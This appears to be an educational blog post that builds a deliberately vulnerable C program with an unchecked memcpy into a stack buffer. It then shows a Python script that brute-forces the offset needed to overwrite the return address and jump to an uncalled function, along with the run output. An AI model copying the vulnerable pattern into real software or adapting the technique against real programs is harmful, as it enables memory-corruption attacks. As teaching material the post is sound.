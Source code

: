 ```yaml
---
title: "Simple buffer overflow exploit"
layout: post
date: 2023-05-11 22:44
headerImage: false
tag:
- exploit
- analysis
star: true
category: blog
author: torbenfeldthusen
description: buffer overflow exploit
---
```


Simple buffer overflow exploit

The key to understanding exploits is the concept of the universal machine – the fact that trying to restrict what a computer can do is literally fighting against the laws of physics. Lots of money can be poured into software which sometimes only takes a couple of days to get compromised, its a Sisyphean task where the goal can only be to make it “hard enough” – as its likely that anything complex enough to be useful is vulnerable in some way.

Having said that, the classic exploit is quite avoidable but regrettably common – the buffer overflow, a specific kind of common bug which makes it possible to write over a program’s stack to take control of it’s behaviour externally. This was about as much as I knew, but I didn’t really understand the practicalities so I thought I’d write an example to play with. There are quite a lot of examples online, but a lot of them are a little confusing so I’d thought I try a simpler approach.

Here is a function called “unlock_door”, we’ll compile this into a C program and try to force it to execute even though it’s not called from the program:
```
void unlock_door() { 
  printf("DOOR UNLOCKED\n"); 
  exit(1); 
}
```
Now we need a vulnerability, this could be something completely unrelated to “unlock_door” but called in the same program – or it’s library code:

```
void vulnerable(char *incoming_data, unsigned int len) {
    char fixed_buffer[10];
    // woop! put some variable length data in 
    // a fixed size container with no checking
    memcpy(fixed_buffer,incoming_data,len);
    // print out the return pointer, helpful for debugging the hack!
    printf("return pointer is: %p\n", 
        __builtin_return_address(0));
}
```
The dodgy memcpy call copies incoming_data into fixed_buffer on the stack which is 10 bytes big. If incoming_data is bigger then it will copy outside of the reserved memory and overwrite other data on the stack. One of the other things stored on the stack is the return address value – which tells the program where the function was called from so it can go back when it’s finished. If we can set incoming_data from outside the program, then we can exploit it to redirect program flow and jump into unlock_door instead of returning properly.

We’ll make getting data into the program very simple indeed, and input it via a base16 encoded argument string converted to binary data passed to our vulnerable function in main:

```
unsigned int base16_decode(const char *hex, char **data) {
  unsigned int str_size = strlen(hex);
  *data = malloc(str_size/2); 
  for (unsigned int i=0; i<str_size; i+=2) {
    if (sscanf(&(hex[i]), "%2hhx", &((*data)[i/2])) != 1) {
      return 0;
    }
  }
  return str_size/2;
}

void main(int argc, char **argv) {
  char *data;
  unsigned int size = base16_decode(argv[1],&data);
  vulnerable(data,size);
  free(data);
  printf("normal exit, door is locked\n");
  exit(0);
}
```
This is our vulnerable C program finished. If we run it with just a few bytes of data it operates normally and prints out the current return pointer, sending it back into the main function it was called from:

```
$ ./dodgy_door_prog 0000000000
return pointer is: 0x40088c
normal exit, door is locked
```

We can now inspect it in order to figure out the exploit. The first thing we can do is run the standard bintools “nm” command on the binary which prints out the addresses of all the functions in the executable. We can search this with grep to print the address of the target function we want to call:

```
$ nm dodgy_door_prog | grep unlock_door
00000000004007fa T unlock_door
```
The smart thing to do next is to work out where the return pointer would be relative to the fixed_buffer variable and offset this address to provide a payload to send the the program – so I wrote a python program to figure it out for me:

```
import os
import string

# this is stored in memory in reverse (little endian format)
unlock_door_addr = "fa0740"

def build_payload(length):
    return "00"*length+unlock_door_addr

ret = 0
count = 0
# try increasing offsets and until we get the exit code from unlock_door
# ignore all segfaults and bus errors etc and keep retrying
while ret in [0,35584,34560,34304,33792]:
    payload=build_payload(count)
    cmd="./dodgy_door_prog "+payload
    ret = os.system(cmd);
    print cmd
    count+=1

```
the addresses are stored in memory backwards to what you’d expect as it’s little-endian memory layout (on intel and everything else these days). The script keeps adding zeros in order to offset the target address until it sits in the right bit of stack memory (you can see the return pointer gradually getting corrupted) and eventually triggers the function:


```
./dodgy_door_prog 00000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 00000000000000000000000000000000000000000000fa0740
return pointer is: 0x400840
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000000000fa0740
return pointer is: 0x404007
Segmentation fault (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000000000fa0740
return pointer is: 0x4007fa
DOOR UNLOCKED!
```

The successful offset is 24 bytes. Now the good news is that this is only possible on GCC if we compile with “-fno-stack-protector”, as by default for the last year or so it checks functions that allocate arrays on the stack by using a random “canary” value pushed to the stack, if the canary gets altered it stops the program before the function returns. However not all functions are checked this way as it’s slow, so it’s quite easy to circumvent for example if changed from an array to to the address of a local variable instead.

More advanced versions of this exploit also insert executable code into the stack to do things like start a shell process so you can run any commands as the program. There is also an interesting technique called “Return Oriented Programming” where you can analyse an executable to find snippets of code that end in returns (called “gadgets”) and string them together to run your own arbitrary programs. This reminds me of the recent work we’ve been doing on biological viruses, as it’s analogous to how they latch onto sections of bacterial DNA to run their own code.
    

